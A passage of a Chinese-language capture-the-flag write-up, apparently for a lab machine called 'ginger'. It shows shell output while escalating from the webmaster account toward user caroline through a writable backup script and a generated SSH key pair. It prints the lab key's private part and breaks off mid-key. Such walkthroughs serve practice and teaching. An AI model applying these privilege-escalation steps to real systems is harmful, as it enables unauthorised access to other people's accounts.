 ### 提权caroline

```bash
(remote) webmaster@ginger:/home/caroline$ ls -la
total 40
drwxr-xr-- 5 caroline webmaster 4096 May 25  2021 .
drwxr-xr-x 5 root     root      4096 May 21  2021 ..
drwxrwx--- 2 caroline webmaster 4096 May 22  2021 backup
lrwxrwxrwx 1 root     root         9 May 25  2021 .bash_history -> /dev/null
-rw-r--r-- 1 caroline caroline   220 May 21  2021 .bash_logout
-rw-r--r-- 1 caroline caroline  3526 May 21  2021 .bashrc
drwx------ 3 caroline caroline  4096 May 22  2021 .gnupg
drwxr-xr-x 3 caroline caroline  4096 May 21  2021 .local
-rw-r--r-- 1 caroline caroline   807 May 21  2021 .profile
-rw-r--r-- 1 caroline caroline    66 May 21  2021 .selected_editor
-rwx------ 1 caroline caroline    33 May 22  2021 user.txt
(remote) webmaster@ginger:/home/caroline$ cd backup/
(remote) webmaster@ginger:/home/caroline/backup$ ls -la
total 12
drwxrwx--- 2 caroline webmaster 4096 May 22  2021 .
drwxr-xr-- 5 caroline webmaster 4096 May 25  2021 ..
-rwxr-xr-x 1 caroline caroline    44 May 21  2021 backup.sh
(remote) webmaster@ginger:/home/caroline/backup$ cat backup.sh 
#!/bin/bash
/usr/bin/cp -r /home/caroline/*
```

这种脚本盲菜是定时脚本，尝试进行利用，尝试加一个`.ssh`进行登录，以免占用过多终端。

```bash
(remote) webmaster@ginger:/home/webmaster$ mkdir .ssh
(remote) webmaster@ginger:/home/webmaster$ chmod 700 .ssh
(remote) webmaster@ginger:/home/webmaster$ cd .ssh
(remote) webmaster@ginger:/home/webmaster/.ssh$ ssh-keygen -t rsa -o
Generating public/private rsa key pair.
Enter file in which to save the key (/home/webmaster/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/webmaster/.ssh/id_rsa.
Your public key has been saved in /home/webmaster/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:pVeSHFJOvE1MgHi4koodE/FcAEooDYECi69sebF8BaU webmaster@ginger
The key's randomart image is:
+---[RSA 2048]----+
|B=oo...+.+=+.    |
|Booo .= o=.oo    |
|*  .oE o  *+.    |
| .o o o  o.o.    |
| o.= . .S .      |
|o.= o .  .       |
|.+ + .           |
|. . .            |
|                 |
+----[SHA256]-----+
(remote) webmaster@ginger:/home/webmaster/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA3VIGvpOCZ7rc9hIrtFwrX8GDD4JlCZMAOKpGW5mL8rAXuDV23Pfi
b9566akoUs14EnzTxgRwqCILck3PzmEcioihK4YYNW3GmhzjTbwqE9Ydplu47/MsGvLS8n
cAHuIH/S0Vh/tR8JR5TiIwpL3vCZKRKSw2HASWC9Xlj/Ir5f20+xtTU26mBOCjJR1vJXWN
Li0p7oLZN7o6cUTmkGpXsvX0VWOfwA42Hl0N/odV81Z6z3eCjZKVKsek6nCB1aJCfloQAk
+V7v/xWTuUsRc/6cCK0cGHghAEI71xU0IGT486uhSTx4EyXduriTj/YO2cT/OkkeRG6aLM
CbV3L7hYPwAAA8iKss6birLOmwAAAAdzc2gtcnNhAAABAQDdUga+k4Jnutz2Eiu0XCtfwY
MPgmUJkwA4qkZbmYvysBe4NXbc9+Jv3nrpqShSzXgSfNPGBHCoIgtyTc/OYRyKiKErhhg1
bcaaHONNvCoT1h2mW7jv8ywa8tLydwAe4gf9LRWH+1HwlHlOIjCkve8JkpEpLDYcBJYL1e
```